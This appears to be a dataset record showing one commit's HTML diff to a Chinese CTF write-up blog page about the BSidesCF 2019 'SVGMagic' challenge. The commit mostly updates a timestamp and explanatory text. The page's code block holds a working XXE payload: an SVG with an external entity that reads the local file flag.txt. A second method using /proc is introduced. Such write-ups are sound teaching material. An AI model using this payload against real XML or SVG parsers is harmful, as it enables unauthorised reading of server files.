

Before and after one commit to YGsandstar/YGsandstar.github.io, a plain HTML site: page 2020/07/31/BUU [BSidesCF 2019]SVGMagic/index.html in a window 1280 px wide. Shown: the part 1622-2600 px from the top of the page, without its empty margins (224-1055 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Site updated: 2020-08-02 09:03:33

```diff
--- a/2020/07/31/BUU [BSidesCF 2019]SVGMagic/index.html
+++ b/2020/07/31/BUU [BSidesCF 2019]SVGMagic/index.html
@@ -15,7 +15,7 @@
 <meta property="og:locale">
 <meta property="og:image" content="http://yoursite.com/images/image-20200801105549875.png">
 <meta property="article:published_time" content="2020-07-31T05:56:54.000Z">
-<meta property="article:modified_time" content="2020-08-01T05:02:48.148Z">
+<meta property="article:modified_time" content="2020-08-02T01:02:04.178Z">
 <meta property="article:author" content="sandstar">
 <meta property="article:tag" content="XXE">
 <meta name="twitter:card" content="summary">
@@ -203,9 +203,9 @@
 <p>相对路径：以当前文件为基准进行一级级目录指向被引用的资源文件。</p>
 </blockquote>
 <p>有一个方法是构造如下payload读取到的，不需要知道文件的路径。</p>
+<p>这里利用的是file创建同名文件flag.txt，进而存放读取结果。</p>
 <figure class="highlight xml"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">&lt;?xml version=&quot;1.0&quot; encoding=&quot;UTF-8&quot;?&gt;</span></span><br><span class="line"><span class="meta">&lt;!DOCTYPE <span class="meta-keyword">test</span> [<span class="meta">&lt;!ENTITY <span class="meta-keyword">sandstar</span> <span class="meta-keyword">SYSTEM</span> <span class="meta-string">&quot;file:flag.txt&quot;</span>&gt;</span>]&gt;</span></span><br><span class="line"><span class="tag">&lt;<span class="name">svg</span> <span class="attr">height</span>=<span class="string">&quot;200&quot;</span> <span class="attr">width</span>=<span class="string">&quot;10000&quot;</span>&gt;</span></span><br><span class="line">  <span class="tag">&lt;<span class="name">text</span> <span class="attr">x</span>=<span class="string">&quot;0&quot;</span> <span class="attr">y</span>=<span class="string">&quot;20&quot;</span>&gt;</span><span class="symbol">&amp;sandstar;</span><span class="tag">&lt;/<span class="name">text</span>&gt;</span></span><br><span class="line"><span class="tag">&lt;/<span class="name">svg</span>&gt;</span></span><br></pre></td></tr></table></figure>
 
-<p>这里笔者个人也存疑，等之后了解了再来完善。</p>
 <h3 id="方法二"><a href="#方法二" class="headerlink" title="方法二"></a>方法二</h3><blockquote>
 <p>关于proc文件系统：</p>
 <p>Linux系统上的/proc目录是一种文件系统，即proc文件系统。与其它常见的文件系统不同的是，/proc是一种伪文件系统（也即虚拟文件系统），存储的是当前内核运行状态的一系列特殊文件，<u>用户可以通过这些文件查看有关系统硬件及当前正在运行进程的信息，甚至可以通过更改其中某些文件来改变内核的运行状态。</u> </p>
```
